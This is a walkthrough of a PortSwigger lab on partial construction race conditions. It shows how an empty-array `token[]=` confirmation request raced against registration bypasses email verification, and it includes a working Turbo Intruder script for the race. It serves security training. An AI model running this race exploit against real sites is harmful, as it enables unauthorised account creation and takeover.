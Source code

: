 ## Labs Covered

This write-up focuses on the following **EXPERT-level lab** from the PortSwigger Web Security Academy related to **Race Conditions**:

**Partial construction race conditions**  
This lab shows how attackers can interfere with the partial creation of resources by triggering requests at specific times, gaining access to incomplete or inconsistent resource states.

---

## LAB 6 - Partial construction race conditions

## Lab Description

![image](https://github.com/user-attachments/assets/7a5c8901-6c1e-46c5-ac66-e7438259ed8e)

## Overview

### Session-Based Locking and Partial Construction Race Conditions

Session-based locking mechanisms, such as PHP's native session handler module, process one request per session at a time, which can mask vulnerabilities. To detect these issues, send requests with different session tokens when sequential processing is observed.

Partial construction race conditions occur in applications where objects are created in multiple steps, creating a temporary exploitable state. For example, during user registration, a window exists between creating the user in the database and initializing their API key. This allows potential exploits by injecting input values that match uninitialized database values.

Framework-specific syntax can be leveraged for such exploits:
- In PHP, `param[]=foo` is equivalent to `param = ['foo']`.
- In Ruby on Rails, parameters with keys but no values are allowed.

Understanding these mechanisms is critical for identifying and mitigating security vulnerabilities.

## Solution

1 Firstly, when we start lab we can see below page.


![image](https://github.com/user-attachments/assets/1f56ffe9-bef0-4e49-8148-ad137b273eec)

2. The lab starts with a page that does not provide credentials. Attempt to create an account, but only emails with the `@ginandjuice.shop` domain are accepted.


![image](https://github.com/user-attachments/assets/b0f4718c-b6ac-4141-a14f-c9c6a6bd78c4)


3. Create an account using an `@ginandjuice.shop` email 

   ![image](https://github.com/user-attachments/assets/2c892792-02bb-47f6-a7e3-ed7b60eefe06)

4  Send the registration link to the email.

  ![image](https://github.com/user-attachments/assets/3e50a538-72af-47ec-99f5-2668048e800e)



5. Intercept the email registration process and send it to Burp Repeater.

   ![image](https://github.com/user-attachments/assets/2513fa77-b4f2-4b8d-a316-7d71d7adc781)

6. We can see the email which we have used to create email.
   
   - Note the email used for registration. Only one username and email are valid per registration. For a second registration, use a different email and username.

     ![image](https://github.com/user-attachments/assets/f30a1517-3c53-494b-a998-de1da0d1ee53)

7. Inspect the page and analyze the JavaScript to understand the token generation process.
 
    ![image](https://github.com/user-attachments/assets/3c9a49a9-1908-4c2b-9319-5cf5862863b0)

8. The URL shows a "confirm" endpoint to verify the email.

   ![image](https://github.com/user-attachments/assets/94d7d774-3a71-432e-9cd1-935e86b4cfd8)

9. Clicking the confirmation link results in an "Incorrect token" error.

    ![image](https://github.com/user-attachments/assets/4897e087-e4a1-405f-948d-2c31c6a9e5b8)

10. Send the confirm email request from HTTP history to Repeater.

    ![image](https://github.com/user-attachments/assets/5c3d19a7-853d-40e9-91b0-9f65be2b9cac)

11. Testing with a random token yields an "Invalid token" error.

    ![image](https://github.com/user-attachments/assets/76234c03-c184-4291-9e6d-1c8eea79ddbd)

12. Using no token results in a "Forbidden" message.

     ![image](https://github.com/user-attachments/assets/3ef71fdf-86ee-4e47-8f9f-dd5a8753e69a)

13. Using an empty array (`token[]=`) results in an "Invalid Array" error, indicating the server accepts an empty array but performs server-side validation.

    ![image](https://github.com/user-attachments/assets/3dff2213-efef-4fce-b64b-b282a071567e)

14. Group the registration and token confirmation requests in Repeater.

    ![image](https://github.com/user-attachments/assets/b8eba9ab-5488-4b4b-815a-a9efffa1dd09)

15. Sending them in parallel shows the token request reaches the server first, followed by the registration request, which is invalid since token generation and validation occur after registration.
    - Confirm request arrives first.
    

      ![image](https://github.com/user-attachments/assets/56c44a86-5433-432d-97a3-b84a6d01d29a)

     - Register request arrives later.

       ![image](https://github.com/user-attachments/assets/1073d091-6388-4094-a3fa-015e4956c32d)

16 . Send the registration request to Turbo Intruder.

 ![image](https://github.com/user-attachments/assets/9df92822-287b-4469-8bf6-e18c90f3b1eb)

17. Select "Race Single Packet" and modify the request as needed.

    ![image](https://github.com/user-attachments/assets/43f554ce-0b9e-40e9-99e7-0f519465709a)


18 . Copy the headers from the confirm token request and remove unnecessary headers.

  ![image](https://github.com/user-attachments/assets/d47bd1ed-9fe3-4af6-a827-43e69fb2ba0c)

19. Use the following modified code in Turbo Intruder:

  ![image](https://github.com/user-attachments/assets/a0534aa0-b7ee-4599-a04e-6382c3035309)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=1, engine=Engine.BURP2)
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: phpsessionid=YOUR-SESSION-TOKEN
Content-Length: 0
'''
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'User' + currentAttempt
        # Queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)
        # Queue 50 confirmation requests - note that this may be sent in two separate packets
        for i in range(50):
            engine.queue(confirmationReq, gate=currentAttempt)
        # Send all queued requests for this attempt
        engine.openGate(currentAttempt)

def handleResponse(req, interesting):
    table.add(req)
```

20 . Set `%s` on the username field to fuzz the username.

![image](https://github.com/user-attachments/assets/3cdfaf96-ea58-48bd-a9c2-243c48ab91e5)

21. The `User4` (e.g., `han4`) account is successfully registered due to the race condition.

     ![image](https://github.com/user-attachments/assets/931e36c8-918a-42c9-965d-a3e5b6ce5ab2)

22. Log in with the `han4` username and the password provided in the registration request.

      ![image](https://github.com/user-attachments/assets/a6cb75b4-fa42-4ce4-b926-2f76861516f5)

24. Delete the `carlos` account, and the lab is solved.

    ![image](https://github.com/user-attachments/assets/00d24e81-d3fc-4577-be90-b0aaf2322dca)
